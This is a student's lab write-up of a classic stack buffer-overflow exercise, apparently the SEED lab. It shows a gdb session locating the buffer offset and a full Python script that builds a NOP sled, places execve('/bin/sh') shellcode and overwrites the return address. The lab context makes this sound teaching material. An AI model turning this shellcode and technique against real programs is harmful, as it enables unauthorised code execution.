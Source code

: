 ### Task 2:

#### Task 2.1:
Followed the example and see how we could use gdb to find the information we need:
```
[03/01/21]seed@VM:~/.../code$ touch badfile
[03/01/21]seed@VM:~/.../code$ gdb stack-L1-dbg
...
gdb-peda$ b bof
...
gdb-peda$ run
...
gdb-peda$ next
...
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb18
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffcaac
gdb-peda$ p/d 0xffffcb18 - 0xffffcaac
$3 = 108
gdb-peda$ quit
```
We have found our ebp address to be 0xffffcb18, our buffer address to be 0xffffcaac, and offset to be 108. Additionally, we can see our buffer size to be 100.

#### Task 2.2:
First, I added the appropriate shellcode, the 32 bit version from the call_shellcode program. Second, I included the offset and ret values. The variable offset is the difference between the ebp and buffer plus 4 (108 + 4). The return address will be 4 bytes above the current frame pointer; thus, we must adjust it by 4 bytes. The ret will be the ebp address + some delta, with the example being 0x78 during class. However, after a few guess and check, I realized that the delta starts at the buffer size and you may increase it by a little bit (I think the cap depends on the version of the program you have, either 32 or 64). Therefore, I used 120. On the other hand, while I was modifying all these inputs, I realized none of my code worked. While I was searching for help, I saw that the code given to us and the example code Travis showed us was different right around variable "start". Therefore, I changed that portion and kept what I modified for offset, ret, and shellcode, which worked just fine. Thus, I have included the whole program this time so it is clear what I modified:
```
#!/usr/bin/python3
import sys

# TODO: Replace the content with the actual shellcode
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)      # TODO: Change this number
content[start:] = shellcode

# Decide the return address value and put it somewhere in the payload
offset = 112      # TODO: Change this number
ret = 0xffffcb18 + 112 + 100  # TODO: Change this number

L = 4           # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

```